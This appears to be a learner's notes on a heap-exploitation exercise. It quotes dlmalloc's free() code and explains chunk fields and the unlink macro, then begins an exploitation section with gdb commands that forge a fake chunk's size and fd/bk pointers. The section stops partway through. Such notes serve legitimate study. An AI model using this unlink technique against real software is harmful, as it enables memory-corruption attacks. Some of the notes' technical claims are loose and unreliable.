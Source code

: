 ```c
/* If eligible, place chunk on a fastbin so it can be found and used quickly in malloc. */
if ( (unsigned long)(size) <= (unsigned long)(av->max_fast) ) {...}
/* Consolidate other non-mmapped chunks as they arrive. */
else if (!chunk_is_mmapped(p)) {...}
```

1. So the first `if`, based on my understanding so far, is just the heap chunk that will point to next chunk when freeing some memory, it's a singly linked list. Also we probably can say that the allocated memory isn't that big hence it's considered as "fastbins". The example is already we have done:
!["after three free call"](./assets/free.png)
2. The second one is suppossed to be where the merge heap chunk, with some several edge cases.
3. We learn the heap components, `prev_size`, `size`, `mem` (which is just the user data) `fk` and `bk` pointers.
4. Inside of `size` there is `PREV_SIZE` (1st LSB), `IS_MMAP` (2nd LSB), and `NON_MAIN_ARENA`, where the latter was not that important.
5. The data structure that used by dlmaloc are just singly linked list, and doubly linked list. Singly linked list is used when the heap is small, also considered as "fastbins". Whereas doubly linked list is used when the hea is pretty big, like 0x60 maybe around that number.
6. We learn the `unlink` macro which gonna be real important to understand this exploitation.


## Exploitation

### Failed: `strcpy` can’t copy null bytes
```
r AAAABBBB CCCCDDDD EEEEFFFF
set {int}0x804c050=0x00000010
set {int}0x804c054=100
set {int}0x804c044=0x11
set {int}0x804c048=0x804b128-12
set {int}0x804c04c=0x804c010
```
1. Run the gdb with normal buffer.
> 2. `0x804c054`: Set the chunk size to more than 80 and have the prev in use bit set to 0. So why not 100.
> 3. `0x804c050`: Now we want to set the `prev_size`, to point to the previous block we want to merge with. Let’s make that a small block. So maybe hex 10.
> 4. `0x804c044`: This means at -0x10 we have to create a fake chunk of that size. So set 0x11, because we want to indicate that the chunk before this fake chunk would be in use. 
